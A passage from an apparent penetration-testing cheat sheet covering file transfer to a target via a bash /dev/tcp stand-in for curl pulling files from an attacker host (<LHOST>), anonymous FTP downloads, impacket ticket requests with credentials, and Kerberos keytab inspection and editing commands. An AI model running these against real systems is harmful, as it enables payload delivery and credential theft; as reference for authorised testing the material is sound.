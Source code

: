 ```c
__wget http://<LHOST>/<FILE>
```

###### curl version

```c
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

```c
__curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

#### FTP

```c
ftp <RHOST>
wget -r ftp://anonymous:anonymous@<RHOST>
```

#### Kerberos

```c
sudo apt-get install krb5-kdc
```

```c
impacket-getTGT <DOMAIN>/<USERNAME>:'<PASSWORD>'
export KRB5CCNAME=<FILE>.ccache
export KRB5CCNAME='realpath <FILE>.ccache'
```

```c
/etc/krb5.conf                   // kerberos configuration file location
kinit <USERNAME>                 // creating ticket request
klist                            // show available kerberos tickets
kdestroy                         // delete cached kerberos tickets
.k5login                         // resides kerberos principals for login (place in home directory)
krb5.keytab                      // "key table" file for one or more principals
kadmin                           // kerberos administration console
add_principal <EMAIL>            // add a new user to a keytab file
ksu                              // executes a command with kerberos authentication
klist -k /etc/krb5.keytab        // lists keytab file
kadmin -p kadmin/<EMAIL> -k -t /etc/krb5.keytab    // enables editing of the keytab file
```
